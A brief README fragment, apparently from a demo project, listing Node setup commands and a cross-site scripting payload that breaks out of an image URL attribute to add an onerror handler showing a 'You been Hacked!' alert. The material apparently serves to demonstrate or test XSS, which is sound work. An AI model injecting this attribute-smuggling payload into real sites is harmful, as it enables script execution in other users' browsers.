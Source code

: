 ```
npm install
node app.js
json-server --watch -p 5555 db.json 
```

Payload for alert attack:
`
http://www.bad.com/no-img.jpggg" onerror="alert('You been Hacked!')"
`